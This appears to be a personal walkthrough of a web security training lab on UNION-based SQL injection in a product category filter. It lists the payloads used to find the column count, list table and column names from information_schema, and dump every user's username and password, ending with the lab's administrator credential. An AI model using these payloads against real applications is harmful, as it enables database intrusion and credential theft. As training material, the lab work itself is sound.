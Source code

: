 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

---

Analysis:

- I find that it has two columns, both are string values.

```php
'+UNION+SELECT+'aa',+'aa'--
```

Oracle example, to find version:

```php
'+UNION+SELECT+'aa',+banner+FROM+v$version--
```

List table names:

```php
'+UNION+SELECT+NULL,+table_name+FROM+information_schema.tables--
```

![[Pasted image 20240901095736.png]]

`users_pamdim`

```php
'+UNION+SELECT+NULL,+column_name+FROM+information_schema.columns+WHERE+table_name='users_pamdim'--
```

![[Pasted image 20240901101104.png]]

`username_lhncjc`

`password_lgsjzw`

Payload:

```php
'+UNION+SELECT+username_lhncjc,password_lgsjzw+FROM+users_pamdim--
```

administrator:nl5wtpl0vhiohc312798

Vulnerable path:

`GET /filter?category=`

---

**Completed:** _10:30 2024-09-01_

